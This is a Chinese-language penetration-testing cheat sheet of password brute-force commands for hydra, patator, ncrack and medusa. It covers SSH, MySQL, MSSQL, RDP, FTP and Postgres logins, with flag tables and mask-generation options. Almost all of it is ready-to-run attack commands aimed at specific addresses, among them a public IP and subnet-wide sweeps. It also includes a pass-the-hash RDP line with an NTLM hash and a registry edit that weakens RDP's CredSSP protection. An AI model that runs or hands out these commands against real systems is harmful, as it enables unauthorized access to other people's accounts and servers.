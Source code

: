 ## hydra

**ssh**

sudo hydra -l root -P wordlist.TXT ssh：//192.168.136.142

**mysql**

```sh
-l <user_string>
-L <user_file>
-p <password_string>
-P <password_file>

# 爆破mysql
hydra -l root -P ./password.txt -t 1 -e n -f -v 192.168.43.17 mysql -w 1
hydra -l root -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql
hydra -L ./user.txt -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql
# mssql
hydra -l sa -P password.txt -f mssql://39.99.149.148:1433/
hydra -L usernames.txt –P ./password.txt <target-ip> mssql

# 爆破ssh
hydra -l serlon -P pass.txt 192.168.0.227 ssh     # 知道用户名不知道密码
hydra -l jan -P /opt/rockyou.txt ssh://10.10.100.180 # 知道用户名不知道密码
hydra -L userlist.txt -p 123456 192.168.0.227 ssh # 知道密码不知道用户名
hydra -l admin -p password 192.168.0.0/24 ssh     # 知道用户名和密码但不知道ip
hydra -C default.txt 192.168.0.227                # 知道一组成对的用户名和密码来撞库
hydra -L logins.txt -P pws.txt -M target.txt ssh  # 都不知道
hydra -l wenber -V -x 3:3:1 rdp://127.0.0.1:3389
## -x MIN:MAX:CHARSET  3 到 3 个字符, 1为数字
### 'a' for lowercase letters, 'A' for uppercase letters, '1' for numbers, and for all others, just add their real representation.
### -x 3:5:a  generate passwords from length 3 to 5 with all lowercase letters
### -x 5:8:A1 generate passwords from length 5 to 8 with uppercase and numbers
### -x 1:3:/  generate passwords from length 1 to 3 containing only slashes
### -x 5:5:/%,.-  generate passwords with length 5 which consists only of /%,.-

```

| param   | Description                                                                     |
| ------- | ------------------------------------------------------------------------------- |
| -f      | exit after the first found login/password pair (per host if -M)                 |
| -F      | exit after the first found login/password pair for any host (for usage with -M) |
| -C FILE | colon separated "login:pass" format, instead of -L/-P options                   |
| -e nsr  | "n" for null password, additional checks,                                       |
|         | "s" try login as pass                                                           |
|         | "r" try the reverse login as pass                                               |
### FAQ

1. hydra [ERROR] freerdp: The connection failed to establish.
```sh
# update freerdp
kali_099_freerdp.sh
```

# rdp

远程桌面 要求的函数不受支持

```
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters /t reg_dword /v AllowEncryptionOracle /d 2
```

## rdp/patator
```sh
# 图形界面使用
proxychains python3 patator.py rdp_login host=172.22.4.45 user=Adrian password=FILE0 0=/home/parallels/tool/rockyou.txt
```

## rdp/hydra

```sh
hydra rdp://192.168.1.1:3389 -l admin -p 123456 -V -F
hydra -t 1 -V -f -l administrator -P rockyou.txt rdp://192.168.1.1

hydra -L user.txt -P pwd.txt 172.22.9.26 rdp -F -vV -e ns
hydra 192.168.50.210 rdp -l admin -p 123456 -V -F
hydra 192.168.31.22 rdp -L /usr/share/wordlists/dirbuster/password2.txt -P /usr/share/wordlists/dirbuster/password1.txt -V -F
```

## rdp/御剑 RDP 爆破工具/超级弱口令检查工具/fscan/

## rdp/ncrack 3389 rdp 爆破

```sh
ncrack -p 3389 -v -user admin -pass 123456 192.168.52.0/24
ncrack -p 3389 -v -user admin -P /usr/share/wordlists/rockyou.txt 192.95.xx.xx
ncrack -p 3389 -v -user admin -pass 123456Aa@@ 192.168.52.143

# -T<0-5> 越高越快
ncrack -p 3389 -v -user admin -P ./6位数字.txt 192.168.52.143 -T2 -oN output.txt
```


# medusa
medusa 比 hydra快一些
```bash
# FTP
medusa -h 192.168.1.1 -u admin -P /top1000_password.txt -M ftp -e ns -t 10 -f -r 0 -O ./result_ftp.txt
medusa -M ftp -h 192.168.135.121 -u zc -p top1000.txt
# ssh
medusa -M ssh -h 192.168.75.141 -u flag4 -P top1000.txt -V
# mysql
medusa -h 192.168.137.133 -u root -P /wordlist.txt -M mysql
# postgres
medusa -H /ip.txt -u postgres -n 5432 -P /tmp/pass.txt -e ns -M postgres -T 255 -f -O /tmp/good.txt -r 0
# rdp
medusa -M rdp -m PASS:HASH -u Administrator -p 31D78236327B9619B14ED8EC9AB454C1
```

| params      | desc                                        |
| ----------- | ------------------------------------------- |
| -n [NUM]    | 使用非默认端口                              |
| -e [n/s/ns] | N 意为空密码，S 意为密码与用户名相同        |
| -t [NUM]    | 设定线程数量                                |
| -f          | 在任何主机上找到第一个账号/密码后，停止破解 |
| -r [NUM]    | 重试间隔时间，默认为 3 秒                   |
| -V          | 显示版本                                    |
